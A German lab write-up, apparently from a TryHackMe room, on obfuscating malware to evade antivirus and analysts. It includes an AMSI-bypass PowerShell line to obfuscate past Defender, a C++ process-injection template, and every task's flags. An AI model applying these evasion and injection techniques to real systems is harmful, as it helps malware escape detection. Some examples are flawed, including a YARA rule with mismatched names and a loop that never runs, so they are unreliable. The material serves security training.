






# Task 1 - Einführung
Verschleierung ist ein wesentlicher Bestandteil der Methoden zur Umgehung von Erkennungen und zur Verhinderung der Analyse von Schadsoftware. Ursprünglich wurde die Verschleierung entwickelt, um Software und geistiges Eigentum vor Diebstahl oder Vervielfältigung zu schützen. Während sie weiterhin häufig für diesen ursprünglichen Zweck genutzt wird, haben Angreifer ihre Anwendung für böswillige Absichten angepasst.

In diesem Raum werden wir die Verschleierung aus verschiedenen Perspektiven betrachten und die Methoden der Verschleierung aufschlüsseln.
Dekoratives Bild eines Auges
Lernziele

- Erfahren, wie man moderne Erkennungstechniken mit tool-unabhängiger Verschleierung umgeht
- Die Prinzipien der Verschleierung und ihre Ursprünge im Schutz geistigen Eigentums verstehen
- Verschleierungsmethoden implementieren, um bösartige Funktionen zu verbergen

Bevor Sie mit diesem Raum beginnen, machen Sie sich mit grundlegender Programmierlogik und -syntax vertraut. Kenntnisse in C und PowerShell sind empfehlenswert, aber nicht erforderlich.

Wir haben mehrere Maschinen mit den benötigten Dateien und Webservern bereitgestellt, um diesen Raum abzuschließen. Mit den unten stehenden Zugangsdaten können Sie auf die Maschinen und Webserver im Browser oder über RDP zugreifen.

Maschinen-IP: `MACHINE_IP`             Benutzername: `Student`             Passwort: `TryHackMe!`

# Task 2 - Ursprünge der Verschleierung
Obfuscation wird in vielen softwarebezogenen Bereichen weit verbreitet eingesetzt, um geistiges Eigentum (Intellectual Property, IP) und andere proprietäre Informationen zu schützen, die eine Anwendung enthalten kann.

Ein Beispiel dafür ist das beliebte Spiel Minecraft, das den Obfuscator ProGuard verwendet, um seine Java-Klassen zu verschleiern und zu minimieren. Minecraft veröffentlicht auch Verschleierungskarten mit begrenzten Informationen, die als Übersetzer zwischen den alten nicht verschleierten Klassen und den neuen verschleierten Klassen dienen, um die Modding-Community zu unterstützen.

Dies ist nur ein Beispiel für die vielfältigen öffentlichen Anwendungen von Obfuscation. Um die verschiedenen Methoden der Verschleierung zu dokumentieren und zu organisieren, können wir auf das Forschungspapier “[Layered Obfuscation: A Taxonomy of Software Obfuscation Techniques for Layered Security](https://cybersecurity.springeropen.com/counter/pdf/10.1186/s42400-020-00049-3.pdf)” verweisen. In diesem Papier werden die Verschleierungsmethoden nach Schichten organisiert, ähnlich dem OSI-Modell, jedoch für den Datenfluss von Anwendungen. Unten sehen Sie die Abbildung, die einen vollständigen Überblick über jede Schicht der Taxonomie bietet. Jede Unterebene wird dann in spezifische Methoden unterteilt, die das Gesamtziel der Unterebene erreichen können. In diesem Zusammenhang werden wir uns hauptsächlich auf die Code-Element-Schicht der Taxonomie konzentrieren, wie in der folgenden Abbildung dargestellt:  


Jede Unterebene wird dann in spezifische Methoden unterteilt, die das Gesamtziel der Unterebene erreichen können.

In diesem Zusammenhang werden wir uns hauptsächlich auf die Code-Element-Schicht der Taxonomie konzentrieren, wie in der folgenden Abbildung dargestellt:


Um die Taxonomie zu verwenden, können wir ein Ziel festlegen und dann eine Methode auswählen, die unseren Anforderungen entspricht. Angenommen, wir möchten das Layout unseres Codes verschleiern, können jedoch den vorhandenen Code nicht ändern. In diesem Fall können wir Junk-Code einfügen, wie in der Taxonomie zusammengefasst:

                                    Code-Element-Schicht > Verschleierung des Layouts > Junk-Codes.

Aber wie könnte dies böswillig genutzt werden? Gegner und Malware-Entwickler können die Verschleierung nutzen, um Signaturen zu umgehen oder die Programm-Analyse zu verhindern. In den kommenden Aufgaben werden wir beide Perspektiven der Malware-Verschleierung diskutieren, einschließlich des Zwecks und der zugrunde liegenden Techniken jeder Methode.

## Fragen:
Aus wie vielen Kernebenen besteht die "Layered Obfuscation Taxonomy"?
```
4
```

Welche Unterschicht der Layered Obfuscation Taxonomy umfasst bedeutungslose Identifikatoren?
```
Obfuscating Layout
```

# Task 3 - Verschleierungsfunktion für statische Umgehung
Zwei der bedeutendsten Sicherheitsbarrieren für einen Angreifer sind Anti-Virus-Engines und EDR (Endpoint Detection & Response)-Lösungen. Wie im „Introduction to Anti-virus“-Raum behandelt, nutzen beide Plattformen eine umfangreiche Datenbank bekannter Signaturen, die als statische Signaturen bezeichnet werden, sowie heuristische Signaturen, die das Anwendungsverhalten berücksichtigen.

Um Signaturen zu umgehen, können Angreifer eine Vielzahl von Logik- und Syntaxregeln nutzen, um Verschleierung zu implementieren. Dies wird häufig durch den Missbrauch von Datenverschleierungstechniken erreicht, die wichtige identifizierbare Informationen in legitimen Anwendungen verbergen.

Das zuvor erwähnte Whitepaper „Layered Obfuscation Taxonomy“ fasst diese Praktiken gut unter der Code-Element-Schicht zusammen. Unten ist eine Tabelle der Methoden aufgeführt, die von der Taxonomie in der Unterschicht „Data Obfuscation“ behandelt werden.

Diagramm, das die Ziele der Unterschicht „Data Obfuscation“ zeigt: Array-Transformation, Datenkodierung, Datenprozeduralisierung und Datenaufteilung/-zusammenführung.  


| Obfuscation Method       | Zweck                                                      |
|--------------------------|-------------------------------------------------------------|
| Array Transformation     | Transformiert ein Array durch Aufteilen, Zusammenführen, Faltung und Glättung |
| Data Encoding            | Codiert Daten mit mathematischen Funktionen oder Chiffren   |
| Data Procedurization     | Ersetzt statische Daten durch Aufrufe von Prozeduren        |
| Data Splitting/Merging   | Verteilt Informationen einer Variablen auf mehrere neue Variablen |

In den kommenden Aufgaben werden wir uns hauptsächlich auf die Datenverteilung/-zusammenführung konzentrieren; da statische Signaturen schwächer sind, müssen wir in der Anfangsphase der Verschleierung nur diesen Aspekt beachten.

Schauen Sie sich den Raum für Encoding/Packing/Binder/Crypters für weitere Informationen zur Datenkodierung an, und den Raum für [Signaturenvermeidung](https://tryhackme.com/room/signatureevasion) für weitere Informationen zur Datenprozedurisierung und -transformation.

## Fragen:
Welche Verschleierungsmethode wird ein Objekt zerbrechen oder aufteilen?
```
Data Splitting
```

Mit welcher Verschleierungsmethode wird statische Daten durch einen Aufruf einer Prozedur umgeschrieben?
```
Data Procedurization
```

# Task 4 - Objektverkettung
Konkatenation ist ein häufiges Programmierkonzept, das zwei separate Objekte zu einem Objekt zusammenführt, wie z. B. einen String.

Ein vordefinierter Operator legt fest, wo die Konkatenation erfolgen wird, um zwei unabhängige Objekte zu kombinieren. Unten finden Sie ein generisches Beispiel für die String-Konkatenation in Python.
```python
>>> A = "Hello "
>>> B = "THM"
>>> C = A + B
>>> print(C)
Hello THM
>>>
```

Abhängig von der Sprache, die in einem Programm verwendet wird, können unterschiedliche oder mehrere vordefinierte Operatoren für die Konkatenation verwendet werden. Unten finden Sie eine kleine Tabelle mit gängigen Sprachen und den entsprechenden vordefinierten Operatoren.
| Language   | Concatenation Operator               |
|------------|-------------------------------------|
| Python     | `+`                                 |
| PowerShell | `+`, `,`, `$`, oder überhaupt kein Operator |
| C#         | `+`, `String.Join`, `String.Concat` |
| C          | `strcat`                             |
| C++        | `+`, `append`                        |

Das zuvor erwähnte Whitepaper 'Layered Obfuscation Taxonomy' fasst diese Praktiken gut unter der Unterebene der Datenverteilung/-zusammenführung der Code-Element-Schicht zusammen.
##
Was bedeutet das für Angreifer? Konkatenation kann mehrere Wege öffnen, um Signaturen zu modifizieren oder andere Aspekte einer Anwendung zu manipulieren. Das häufigste Beispiel für die Verwendung von Konkatenation in Malware ist das Brechen gezielter statischer Signaturen, wie im Raum für Signaturenvermeidung behandelt. Angreifer können sie auch präventiv nutzen, um alle Objekte eines Programms aufzubrechen und gleichzeitig alle Signaturen zu entfernen, ohne sie einzeln suchen zu müssen, was in Verschleierungen wie in Aufgabe 9 häufig vorkommt.

Nachfolgend werden wir eine statische Yara-Regel betrachten und versuchen, mithilfe von Konkatenation die statische Signatur zu umgehen.
```yara
rule ExampleRule
{
    strings:
        $text_string = "AmsiScanBuffer"
        $hex_string = { B8 57 00 07 80 C3 }

    condition:
        $my_text_string or $my_hex_string
}
```

Wenn ein kompiliertes Binär mit Yara gescannt wird, wird bei Vorhandensein der definierten Zeichenkette ein positiver Alarm/Detektion ausgelöst. Durch Konkatenation kann die Zeichenkette funktional identisch sein, aber beim Scannen als zwei unabhängige Zeichenketten erscheinen, was zu keiner Alarmierung führt.  


Wenn der zweite Codeblock mit der Yara-Regel gescannt würde, gäbe es keine Alarme!
##
Über die Konkatenation hinaus können Angreifer auch nicht interpretierte Zeichen verwenden, um eine statische Signatur zu stören oder zu verwirren. Diese können unabhängig oder in Kombination mit Konkatenation verwendet werden, abhängig von der Stärke/Implementierung der Signatur. Nachfolgend finden Sie eine Tabelle einiger gängiger nicht interpretierter Zeichen, die wir nutzen können.
| Zeichen   | Zweck                                                         | Beispiel                      |
|------------|---------------------------------------------------------------|-------------------------------|
| Breaks     | Einzelnen String in mehrere Teil-Strings aufteilen und kombinieren | `('co'+'ffe'+'e')`           |
| Reorders   | Komponenten eines Strings neu anordnen                         | `('{1}{0}'-f'ffee','co')`    |
| Whitespace | Nicht interpretierbare Leerzeichen einfügen                    | `.( 'Ne' +'w-Ob' + 'ject')`  |
| Ticks      | Nicht interpretierbare Ticks einfügen                         | `d'own'LoAd'Stri'ng`         |
| Random Case| Tokens sind generell nicht case-sensitive und können beliebige Groß- und Kleinschreibung haben | `dOwnLoAdsTRing`             |

Verwenden Sie das Wissen, das Sie während dieser Aufgabe erworben haben, um den folgenden PowerShell-Schnipsel zu verschleiern, bis er den Erkennungen von Defender ausweicht.
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Um Ihnen den Einstieg zu erleichtern, empfehlen wir, jeden Abschnitt des Codes zu zerlegen und zu beobachten, wie er interagiert oder erkannt wird. Sie können dann die Signatur im unabhängigen Abschnitt brechen und einen weiteren Abschnitt hinzufügen, bis Sie einen sauberen Schnipsel haben.

Wenn Sie der Meinung sind, dass Ihr Schnipsel ausreichend verschleiert ist, senden Sie ihn an den Webserver unter http://MACHINE_IP ; bei Erfolg erscheint eine Flagge in einem Popup.

Wenn Sie immer noch feststecken, haben wir unten eine Lösungswegbeschreibung bereitgestellt.

## Fragen:
```
THM{koNC473n473_4Ll_7H3_7H1n95}
```

# Task 5 - Die Funktion der Verschleierung zur Analysetäuschung
Nachdem grundlegende Funktionen bösartigen Codes obfuskiert wurden, kann er Softwareerkennungen möglicherweise umgehen, bleibt jedoch anfällig für menschliche Analyse. Obwohl dies allein keine Sicherheitsbarriere darstellt, können Analysten und Reverse Engineers tiefe Einblicke in die Funktionsweise unserer schädlichen Anwendung gewinnen und deren Operationen stoppen.

Angreifer können fortschrittliche Logik und mathematische Methoden nutzen, um komplexeren und schwerer verständlichen Code zu erstellen, der darauf abzielt, Analysen und Reverse Engineering zu erschweren.

Für weitere Informationen zum Thema Reverse Engineering werfen Sie einen Blick auf das [Modul zur Malware-Analyse](https://tryhackme.com/module/malware-analysis).

Das bereits erwähnte Whitepaper [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/articles/10.1186/s42400-020-00049-3) fasst diese Praktiken gut unter anderen Subschichten der Code-Element-Schicht zusammen. Im Folgenden finden Sie eine Tabelle der von der Taxonomie abgedeckten Methoden in den Subschichten für die Layout- und Steuerungsobfuskation.
| Verschleierungs Methode | Beschreibung |
|--------------------------|--------------------------------------------------------|
| Junk Code                | Fügt nicht-funktionale Anweisungen hinzu, auch bekannt als Code-Stubs |
| Trennung verwandter Codes | Trennt verwandte Codes oder Anweisungen, um die Lesbarkeit des Programms zu erschweren |
| Entfernen redundanter Symbole | Entfernt symbolische Informationen wie Debug-Informationen oder andere Symboltabellen |
| Sinnlose Bezeichner      | Verwandelt bedeutungsvolle Bezeichner in bedeutungslose |
| Implizite Steuerungen    | Konvertiert explizite Steueranweisungen in implizite Anweisungen |
| Dispatcher-basierte Steuerungen | Bestimmt den nächsten auszuführenden Block zur Laufzeit |
| Probabilistische Kontrollflüsse | Führt Replikationen von Kontrollflüssen mit derselben Semantik, aber unterschiedlicher Syntax, ein |
| Falsche Kontrollflüsse    | Gezielt hinzugefügte Kontrollflüsse im Programm, die jedoch niemals ausgeführt werden |

In den kommenden Aufgaben werden wir mehrere der oben genannten Methoden in einem neutralen Format demonstrieren.

Weitere Informationen zu Anti-Analyse- und Anti-Reversing-Techniken finden Sie im Raum "[Sandbox-Evasion](https://tryhackme.com/room/sandboxevasion)".

## Fragen:
Wie werden nutzlose Anweisungen im Junk-Code genannt?
```
Code Stubs
```

Welche Verschleierungsschicht zielt darauf ab, Analysten durch Manipulation des Codeflusses und der abstrakten Syntaxbäume zu verwirren?
```
Obfuscating Controls
```

# Task 6 - Codefluss und Logik
**Control flow** ist eine entscheidende Komponente der Programmausführung, die bestimmt, wie ein Programm logisch fortgesetzt wird. **Logik** ist einer der wichtigsten bestimmenden Faktoren für den Ablauf einer Anwendung und umfasst verschiedene Anwendungen wie **if/else-Anweisungen** oder **for-Schleifen**. Ein Programm wird traditionell von oben nach unten ausgeführt; wenn eine logische Anweisung erreicht wird, setzt es die Ausführung entsprechend der Anweisung fort.

Nachfolgend finden Sie eine Tabelle mit einigen Logikanweisungen, die Ihnen bei der Arbeit mit Kontrollflüssen oder Programmlogik begegnen können:

| Logik-Anweisung   | Zweck                                                                                          |
|-------------------|------------------------------------------------------------------------------------------------|
| if/else           | Führt nur aus, wenn eine Bedingung erfüllt ist; andernfalls wird ein anderer Codeblock ausgeführt |
| try/catch         | Versucht, einen Codeblock auszuführen, und fängt ihn ab, wenn er Fehler behandeln soll           |
| switch case       | Ähnliche bedingte Logik wie eine if-Anweisung, überprüft jedoch mehrere verschiedene Bedingungen mit Fällen, bevor es zu einem break oder default kommt |
| for/while loop    | Eine for-Schleife führt für eine festgelegte Anzahl von Bedingungen aus. Eine while-Schleife führt aus, solange eine Bedingung erfüllt ist |

Um dieses Konzept greifbarer zu machen, können wir eine Beispiel-Funktion betrachten und ihren zugehörigen **CFG** (**C**ontrol **F**low **G**raph), um mögliche Kontrollflusspfade darzustellen.
```python
x = 10 
if(x > 7):
	print("This executes")
else:
	print("This is ignored")
```


Was bedeutet das für Angreifer? Ein Analyst kann versuchen, die Funktion eines Programms durch seinen Kontrollfluss zu verstehen; obwohl dies problematisch ist, ist es fast mühelos, Logik und Kontrollfluss willkürlich zu manipulieren und beliebig verwirrend zu gestalten. Wenn es um den Kontrollfluss geht, zielt ein Angreifer darauf ab, genug obskure und willkürliche Logik einzuführen, um einen Analysten zu verwirren, aber nicht so viel, dass weitere Verdachtsmomente entstehen oder die Möglichkeit besteht, von einer Plattform als bösartig erkannt zu werden.

In der kommenden Aufgabe werden wir verschiedene Kontrollflussmuster diskutieren, die ein Angreifer nutzen kann, um einen Analysten zu verwirren.

## Fragen:
Kann Logik die Kontrollfluss eines Programms verändern und beeinflussen? (T/F)
```
T
```

# Task 7 - Beliebige Kontrollflussmuster
Um **willkürliche Kontrollflussmuster** zu entwerfen, können wir **Mathematik**, **Logik** und/oder andere **komplexe Algorithmen** nutzen, um einen anderen Kontrollfluss in eine bösartige Funktion einzuführen.

Wir können Prädikate verwenden, um diese komplexen logischen und/oder mathematischen Algorithmen zu gestalten. Prädikate beziehen sich auf die Entscheidungsfindung einer Eingabefunktion, um wahr oder falsch zurückzugeben. Wenn wir dieses Konzept auf hoher Ebene betrachten, können wir ein Prädikat ähnlich der Bedingung eines if-Statements betrachten, das entscheidet, ob ein Codeblock ausgeführt wird oder nicht, wie im Beispiel der vorherigen Aufgabe zu sehen ist.

Im Kontext der Obfuskation werden **undurchsichtige Prädikate** verwendet, um eine bekannte Ausgabe und Eingabe zu steuern. Das Papier [Undurchsichtige Prädikate: Angriff und Verteidigung in obfuskiertem Binärcode](https://etda.libraries.psu.edu/files/final_submissions/17513) erklärt: "Ein undurchsichtiges Prädikat ist ein Prädikat, dessen Wert dem Obfuskator bekannt ist, aber schwer zu deduzieren ist. Es kann nahtlos mit anderen Obfuskationsmethoden wie Junk Code angewendet werden, um Reverse-Engineering-Versuche in mühsame Arbeit zu verwandeln." Undurchsichtige Prädikate fallen unter die Kategorien der **falschen Kontrollflüsse** und **probabilistischen Kontrollflüsse** des Taxonomiepapiers; sie können verwendet werden, um willkürlich Logik zu einem Programm hinzuzufügen oder den Kontrollfluss einer bereits vorhandenen Funktion umzustrukturieren.

Das Thema undurchsichtige Prädikate erfordert ein tieferes Verständnis mathematischer und informatischer Prinzipien, daher werden wir nicht detailliert darauf eingehen, sondern ein häufiges Beispiel betrachten.

Die **Collatz-Vermutung** ist ein häufiges mathematisches Problem, das als Beispiel für ein undurchsichtiges Prädikat verwendet werden kann. Sie besagt: Wenn zwei arithmetische Operationen wiederholt werden, geben sie von jedem positiven ganzen Zahl eine zurück. Die Tatsache, dass wir wissen, dass sie für eine bekannte Eingabe (eine positive ganze Zahl) immer eins zurückgeben wird, bedeutet, dass es sich um ein brauchbares undurchsichtiges Prädikat handelt. Für weitere Informationen zur Collatz-Vermutung verweisen wir auf das [Collatz-Problem](https://mathworld.wolfram.com/CollatzProblem.html). Nachfolgend finden Sie ein Beispiel für die Collatz-Vermutung in Python.  


```python
x = 0
while(x > 1):
	if(x%2==1):
		x=x*3+1
	else:
		x=x/2
	if(x==1):
		print("hello!") 
```

Im obigen Code-Schnipsel führt die Collatz-Vermutung ihre mathematischen Operationen nur aus, wenn `x > 1` ist, was zu `1` oder `TRUE` führt. Gemäß der Definition des Collatz-Problems gibt sie für eine positive Ganzzahl immer eins zurück, daher wird die Aussage immer wahr sein, wenn `x` eine positive Ganzzahl größer als eins ist.

Um die Wirksamkeit dieses undurchsichtigen Prädikats zu beweisen, können wir ihren **CFG** (**C**ontrol **F**low **G**raph) rechts betrachten. Wenn dies das ist, wie eine interpretierte Funktion aussieht, stellen Sie sich vor, wie eine kompilierte Funktion für einen Analysten aussehen könnte.
##
Nutzen Sie das Wissen, das Sie während dieser Aufgabe erlangt haben, setzen Sie sich in die Rolle eines Analysten und versuchen Sie, die ursprüngliche Funktion zu entschlüsseln und die Ausgabe des folgenden Code-Schnipsels zu ermitteln.

Wenn Sie den Anweisungen korrekt folgen, wird dies in einer Flagge resultieren, die Sie einreichen können.
```python
x = 3
swVar = 1
a = 112340857612345
b = 1122135047612359087
i = 0
case_1 = ["T","d","4","3","3","3","e","1","g","w","p","y","8","4"]
case_2 = ["1a","H","3a","4a","5a","3","7a","8a","d","10a","11a","12a","!","14a"]
case_3 = ["1b","2b","M","4b","5b","6b","c","8b","9b","3","11b","12b","13b","14b"]
case_4 = ["1c","2c","3c","{","5c","6c","7c","8c","9c","10c","d","12c","13c","14c"]
case_5 = ["1d","2d","3d","4d","D","6d","7d","o","9d","10d","11d","!","13d","14d"]
case_6 = ["1e","2e","3e","4e","5e","6e","7e","8e","9e","10e","11e","12e","13e","}"]

while (x > 1):
    if (x % 2 == 1):
        x = x * 3 + 1
    else:
        x = x / 2
    if (x == 1):
        for y in case_1:
            match swVar:
                case 1:
                    print(case_1[i])
                    a = 2
                    b = 214025
                    swVar = 2
                case 2:
                    print(case_2[i])
                    if (a > 10):
                        swVar = 6
                    else:
                        swVar = 3
                case 3:
                    print(case_3[i])
                    b = b + a
                    if (b < 10):
                        swVar = 5
                    else:
                        swVar = 4
                case 4:
                    print(case_4[i])
                    b -= b
                    swVar = 5
                case 5:
                    print(case_5[i])
                    a += a
                    swVar = 2
                case 6:
                    print(case_5[11])
                    print(case_6[i])
                    break
            i = i + 1 
```

## Fragen:
Welche Flagge wird gefunden, nachdem der bereitgestellte Ausschnitt ordnungsgemäß rückwärts entschlüsselt wurde?
```
THM{D3cod3d!!!}
```

# Task 8 - Identifizierbare Informationen schützen und entfernen
Identifizierbare Informationen können eine der kritischsten Komponenten sein, die ein Analyst nutzen kann, um ein bösartiges Programm zu analysieren und zu verstehen. Indem die Menge an identifizierbaren Informationen (Variablen, Funktionsnamen usw.) begrenzt wird, hat ein Angreifer eine bessere Chance, die ursprüngliche Funktion nicht rekonstruieren zu können.

Auf einer höheren Ebene sollten wir drei verschiedene Arten von identifizierbaren Daten betrachten: Code-Struktur, Objektnamen und Datei-/Kompilationseigenschaften. In dieser Aufgabe werden wir die Kernkonzepte jeder Art sowie eine Fallstudie zu einem praktischen Ansatz für jede davon aufschlüsseln.
##
### Objektnamen

Objektnamen bieten einen erheblichen Einblick in die Funktionalität eines Programms und können den genauen Zweck einer Funktion offenlegen. Ein Analyst kann immer noch den Zweck einer Funktion aus ihrem Verhalten rekonstruieren, aber dies ist deutlich schwieriger, wenn kein Kontext zur Funktion vorhanden ist.

Die Bedeutung von wörtlichen Objektnamen kann je nachdem, ob die Sprache **kompiliert** oder **interpretiert** ist, variieren. Bei einer interpretierten Sprache wie **Python** oder **PowerShell** sind alle Objekte wichtig und müssen modifiziert werden. Bei einer kompilierten Sprache wie **C** oder **C#** sind in der Regel nur Objekte in den Zeichenfolgen signifikant. Ein Objekt kann in den Zeichenfolgen durch jede Funktion erscheinen, die eine **I/O-Operation** ausführt.

Das oben genannte Whitepaper "Layered Obfuscation Taxonomy" fasst diese Praktiken gut unter der Methode der bedeutungslosen Bezeichner der Code-Element-Schicht zusammen.

Nachfolgend werden wir zwei grundlegende Beispiele für das Ersetzen von bedeutungsvollen Bezeichnern sowohl für eine interpretierte als auch für eine kompilierte Sprache betrachten.
##
Als Beispiel für eine kompilierte Sprache können wir einen Prozessinjektor in C++ betrachten, der seinen Status an die Befehlszeile meldet.
```c++
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
}
```

Lassen Sie uns die Zeichenfolgen verwenden, um genau zu sehen, was durchgesickert ist, wenn dieser Quellcode kompiliert wird.
```cmd
C:\>.\strings.exe "\Injector.exe"

Strings v2.54 - Search for ANSI and Unicode strings in binary images.
Copyright (C) 1999-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

!This program cannot be run in DOS mode.
>FU
z';
z';
...
[snip]
...
Y_^[
leaked
shellcode
2_^[]
...
[snip]
...
std::_Adjust_manually_vector_aligned
"invalid argument"
string too long
This was leaked in the strings
Handle obtained for
Buffer Created
Process written with buffer
Closing handle
std::_Allocate_manually_vector_aligned
bad allocation
Stack around the variable '
...
[snip]
...
8@9H9T9X9\\9h9|9
:$:(:D:H:
@1p1
```

Beachten Sie, dass alle iostreams in Zeichenfolgen geschrieben wurden und sogar das Byte-Array des Shellcodes durchgesickert ist. Dies ist ein kleineres Programm, also stellen Sie sich vor, wie ein ausführliches und nicht obfuskiertes Programm aussehen würde!

Um dieses Problem zu lösen, können wir Kommentare entfernen und die bedeutungsvollen Bezeichner ersetzen.
```c++
#include "windows.h"

int main(int argc, char* argv[])
{
	unsigned char awoler[] = "";

	HANDLE awerfu;
	HANDLE rwfhbf;
	PVOID iauwef;

	awerfu = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	iauwef = VirtualAllocEx(awerfu, NULL, sizeof awoler, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(awerfu, iauwef, awoler, sizeof awoler, NULL);
	rwfhbf = CreateRemoteThread(awerfu, NULL, 0, (LPTHREAD_START_ROUTINE)iauwef, NULL, 0, NULL);
	CloseHandle(awerfu);

	return 0;
}
```

Wir sollten keine identifizierbaren Zeichenfolgeninformationen mehr haben, und das Programm ist vor Zeichenfolgenanalysen geschützt.
##
